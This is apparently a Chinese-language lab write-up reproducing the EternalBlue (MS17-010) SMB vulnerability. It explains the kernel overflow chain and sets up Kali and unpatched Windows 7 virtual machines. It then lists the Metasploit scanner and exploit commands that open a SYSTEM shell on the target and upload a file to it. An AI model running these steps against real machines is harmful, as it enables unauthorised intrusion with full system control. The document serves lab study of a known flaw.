# 永恒之蓝（MS17-010）漏洞复现

## 漏洞概述

- **漏洞编号**：MS17-010
- **漏洞名称**：永恒之蓝(EternalBlue)
- **影响范围**: Microsoft Windows 7/2008 及之前未打补丁的版本
- **漏洞类型**: 远程代码执行
- **危险等级**: 严重

## 漏洞成因

**SMB协议**：全称Server Mwssage Block，是一种网络文件共享协议，让计算机可以访问网络上的文件和打印机。

**内核态**：操作系统核心运行的空间，拥有最高权限。SMB服务的工作部分（srv.sys）驱动运行在**内核态**，也就意味着漏洞执行的代码在内核态运行，可以获得最高权限。

**漏洞成因**：Windows内核中的srv.sys驱动未能正确验证客户端发送的特定事务请求（SMB_COM_TRANSACTION）中声称的数据长度与实际接收的数据长度是否一致，导致缓冲区溢出。
攻击链如下：

- **触发溢出**：攻击者发送一个畸形的SMB数据包，其中谎报了后续数据的长度。srv.sys驱动因缺失验证，根据这个虚假的长度分配了内核缓冲区，从而造成缓冲区溢出。

- **篡改指针**：溢出的数据精准地覆盖了一个内核中的数据包接收函数指针，将其值修改为指向一个固定的系统内部共享内存区域（KI_USER_SHARED_DATA，地址为0xFFDF0000）。

- **写入Shellcode**：内核随后处理下一个正常的数据包时，会误以为这是之前那个畸形请求的后续数据。由于指针已被篡改，内核会将这些数据（其中包含攻击者的Shellcode）直接写入到那个固定的系统共享内存区域，而非原本的安全缓冲区。

- **劫持执行流**：该系统共享内存区域中包含一个重要的系统调用返回地址。攻击者写入的Shellcode会覆盖这个地址。

- **获取权限**：当相关的系统调用完成时，CPU会去读取被覆盖的返回地址，转而执行攻击者预设的Shellcode。由于这一切发生在内核态，Shellcode得以以最高的SYSTEM权限运行，从而为攻击者打开一个系统Shell。
> **一句话概括**： Windows SMBv1 服务器处理特殊的请求时，存在内核态的内存拷贝错误，导致攻击者可以发送的恶意数据包，实现远程代码执行，获取系统最高权限。

## 实验环境搭建

### 虚拟机软件准备
本教程使用 **VMware Workstation** 作为虚拟机软件。
- **下载安装**：请自行搜索下载并安装VMware Workstation 17 Player（免费版）或Pro版。
- **替代方案**：也可使用 VirtualBox（免费开源）。

### 操作系统镜像准备
需要下载两个系统的镜像文件（ISO文件）：
- **攻击机**：Kali Linux 
- **靶机**：Windows 7 SP1 x64 

### 创建虚拟机
**安装Kali**：
    - 在VMware中新建虚拟机，选择“稍后安装操作系统”，客户机操作系统选择“Linux”，版本选择“Debian 10.x 64位”。
    - 分配至少2核CPU、4GB内存、40GB硬盘空间。
    - 加载下载好的Kali Linux镜像，启动虚拟机完成安装。
**安装Win7**：
    - 新建虚拟机，客户机操作系统选择“Windows”，版本选择“Windows 7 x64”。
    - 分配至少2核CPU、2GB内存、40GB硬盘空间。
    - 加载Win7镜像完成安装。**安装完成后，务必关闭系统自动更新和防火墙！**

### 网络配置
将两台虚拟机的网络适配器都设置为 **NAT模式**，确保它们在同一网段且与物理机隔离。

| 角色         | 系统版本         | IP 地址       | 备注                        |
| ------------ | ---------------- | ------------- |---------------------------|
| 攻击机 (Kali) | Kali Linux 2024.1 | 192.168.142.128 | 使用 Metasploit 框架，具备nmap工具 |
| 靶机 (Target) | Windows 7 SP1 x64 | 192.168.142.133 | 原版，未打补丁                   |

### 实验准备

- **网络检查**：确保攻击机与靶机位于同一局域网段（通常使用VMware/NAT模式），并能相互通信。


- **靶机设置**：关闭Windows 7靶机的防火墙和自动更新功能，使其处于易受攻击的原始状态。


- **环境验证**：
分别查看攻击机与靶机IP，并互相执行ping命令测试连通性。




- **端口扫描**：使用Nmap扫描靶机，探测开放端口，确认445端口（SMB服务）是否开放


## 攻击流程
在kali攻击机上启动渗透测试框架
'msfconsole'

> msfconsole是启动Metasploit框架的核心命令。Metasploit是一个强大的渗透测试平台，里面集成了大量的漏洞利用模块、 payload和辅助工具。msfconsole 就是打开这个工具箱的命令行界面。

搜索永恒之蓝漏洞模块
'search ms17-010'

> 红线标出的是五个功能模块，分别是：
> 
> 漏洞利用模块 (exploit/windows/smb/ms17_010_eternalblue)：主攻击向量。直接利用EternalBlue漏洞进行远程代码执行，获取系统初始访问权限。
>
> 权限扩展模块 (exploit/windows/smb/ms17_010_psexec)：备用攻击方案。在已获取有效账号密码的前提下，通过SMB认证模拟管理员身份执行代码。
> 
> 后门利用模块 (auxiliary/admin/smb/ms17_010_command)：后门命令执行器。在目标已被植入特定后门（如DOUBLEPULSAR）后，直接通过该通道执行单条命令。
> 
> 漏洞扫描模块 (auxiliary/scanner/smb/smb_ms17_010)：安全扫描器。用于无损检测目标主机是否存在MS17-010漏洞，为后续攻击提供依据。
> 
> 后门管理模块 (exploit/windows/smb/smb_doublepulsar_rce)：后门植入与利用工具。可向已存在漏洞的系统植入DOUBLEPULSAR后门，或利用现存的后门执行代码。
> 
> 这里我们主要会用到第一个漏洞攻击模块和第四个扫描模块

选择漏洞扫描，收集信息，验证漏洞
'use auxiliary/scanner/smb/smb_ms17_010'
'set rhosts 192.168.142.133'
'run'

> use auxiliary/scanner/smb/smb_ms17_010：选择漏洞扫描模块。该模块属于辅助(auxiliary)类别中的扫描器(scanner)，其作用是检测目标SMB服务是否存在MS17-010漏洞，仅作验证，不执行攻击。
> set rhosts 192.168.142.133：设置目标参数。rhosts (Remote Hosts) 参数用于指定要扫描的远程靶机IP地址。
> run：执行扫描。启动当前模块，开始对目标进行漏洞验证。
> 结果显示vulnerable，可以开始下一步攻击

切换到攻击模块，设置靶机IP开始攻击
'use exploit/windows/smb/ms17_010_eternalblue'
'set rhosts 192.168.142.133'
'run'

win!

接下来获取靶机cmd
'shell'
查看详细网络信息与权限级别，靶机系统信息等




退出shell界面，上传我们提前准备好的文件并验证
'upload /home/kali/Desktop/test c:\\'
'cat c:\\test'


打开靶机查看




成功！

